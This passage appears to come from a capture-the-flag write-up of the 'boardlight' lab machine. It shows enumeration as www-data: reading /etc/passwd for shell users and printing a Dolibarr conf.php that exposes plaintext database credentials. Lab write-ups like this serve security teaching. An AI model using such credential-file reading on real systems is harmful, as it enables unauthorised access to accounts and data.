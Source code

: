 larissa and root are the only users with shell:

```

www-data@boardlight:/home$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash

```

www-data isn’t able to access larissa’s home folder.

#### Dolibarr

The Dolibarr configuration file [is located at](https://wiki.dolibarr.org/index.php?title=Configuration_file) `/var/www/html/crm.board.htb/htdocs/conf/conf.php`:

```

www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ ls
conf.php  conf.php.example  conf.php.old

```

`conf.php` has a bunch of stuff:

```

<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
```